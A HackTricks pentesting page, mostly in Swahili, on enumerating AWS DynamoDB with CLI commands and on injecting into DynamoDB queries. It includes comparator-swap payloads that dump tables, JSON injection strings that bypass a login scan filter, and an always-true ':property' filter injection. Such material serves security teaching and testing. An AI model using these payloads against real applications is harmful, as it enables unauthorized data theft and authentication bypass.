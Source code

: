 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB inawasilishwa na AWS kama **hifadhidata ya NoSQL isiyo na seva, inayosimamiwa kikamilifu, ya funguo-thamani**, iliyoundwa kwa ajili ya kuendesha programu zenye utendaji wa juu bila kujali ukubwa wao. Huduma hii inahakikisha vipengele thabiti ikiwa ni pamoja na hatua za usalama zilizojengwa ndani, nakala za usalama zisizokatizwa, urekebishaji wa kiotomatiki katika maeneo mbalimbali, uhifadhi wa data wa ndani uliounganishwa, na zana rahisi za kusafirisha data.

Katika muktadha wa DynamoDB, badala ya kuanzisha hifadhidata ya jadi, **meza zinaundwa**. Kila meza inahitaji kufafanua **funguo ya sehemu** kama sehemu muhimu ya **funguo kuu ya meza**. Funguo hii ya sehemu, ambayo kimsingi ni **thamani ya hash**, ina jukumu muhimu katika upatikanaji wa vitu na usambazaji wa data kati ya wenyeji mbalimbali. Usambazaji huu ni muhimu kwa kudumisha upanuzi na upatikanaji wa hifadhidata. Aidha, kuna chaguo la kuingiza **funguo ya kupanga** ili kuboresha zaidi mpangilio wa data.

### Encryption

Kwa kawaida, DynamoDB inatumia funguo ya KMS ambayo **ni ya Amazon DynamoDB,** hata si funguo inayosimamiwa na AWS ambayo angalau inamilikiwa na akaunti yako.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Inawezekana **kuandaa** uzalishaji wa **nakala za meza** au kuziunda kwa **mahitaji**. Aidha, inawezekana pia kuwezesha **Urejeleaji wa wakati (PITR) kwa meza.** Urejeleaji wa wakati unatoa **nakala** za data zako za DynamoDB kwa **siku 35** ili kusaidia kulinda dhidi ya shughuli za kuandika au kufuta zisizokusudiwa.

Pia inawezekana kusafirisha **data ya meza kwenda S3**, lakini meza inahitaji kuwa na **PITR iliyoanzishwa**.

### GUI

Kuna GUI kwa huduma za Dynamo za ndani kama [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), nk, ambazo zinaweza kuwa na manufaa: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Upatikanaji Usio na Uthibitisho

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Baada ya Kutekeleza

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Kudumu

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB Injection

### SQL Injection

Kuna njia za kufikia data za DynamoDB kwa kutumia **sintaksia ya SQL**, hivyo basi, **injections za SQL za kawaida pia zinaweza kutokea**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL Injection

Katika DynamoDB masharti tofauti yanaweza kutumika kupata data, kama katika NoSQL Injection ya kawaida ikiwa inawezekana **kuunganisha masharti zaidi ili kupata** data unaweza kupata data iliyofichwa (au kupakua jedwali lote).\
Unaweza kupata hapa masharti yanayoungwa mkono na DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

Kumbuka kwamba **masharti tofauti** yanayoungwa mkono ikiwa data inafikiwa kupitia **`query`** au kupitia **`scan`**.

{% hint style="info" %}
Kwa kweli, hatua za **Query** zinahitaji kubainisha **sharti "EQ" (sawa)** katika **funguo** ya **msingi** ili kufanya kazi, na kufanya iwe **hasi uwezekano wa NoSQL injections** (na pia kufanya operesheni kuwa na mipaka sana).
{% endhint %}

Ikiwa unaweza **kubadilisha kulinganisha** kunakofanywa au kuongeza mpya, unaweza kupata data zaidi.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Raw Json injection

{% hint style="danger" %}
**Uthibitisho huu unategemea dynamodb Scan Filter ambayo sasa imeondolewa!**
{% endhint %}

**DynamoDB** inakubali **Json** vitu ili **kutafuta** data ndani ya DB. Ikiwa unapata kuwa unaweza kuandika katika kitu cha json kilichotumwa kutafuta, unaweza kufanya DB dump, maudhui yote.

Kwa mfano, kuingiza katika ombi kama: 

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

mshambuliaji anaweza kuingiza kitu kama:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

sahihisha hali ya "EQ" ikitafuta ID 1000 na kisha kutafuta data zote zikiwa na mfuatano wa Id kubwa zaidi ya 0, ambayo ni yote.

Mfano mwingine **ulio hatarini ukitumia kuingia** unaweza kuwa:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Hii itakuwa na hatari ya:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Baadhi ya SDKs zinaruhusu kutumia mfuatano unaoashiria uchujaji utakaofanywa kama: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Unahitaji kujua kwamba kutafuta katika DynamoDB kwa **kubadilisha** **thamani** ya **sifa** katika **mifumo ya kuchuja** wakati wa kusoma vitu, tokeni zinapaswa **kuanza** na herufi ya **`:`**. Tokeni kama hizo zitakuwa **zinabadilishwa** na **thamani halisi ya sifa wakati wa wakati wa kutekeleza**.

Hivyo, kuingia kama ile ya awali inaweza kupuuziliwa mbali na kitu kama:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
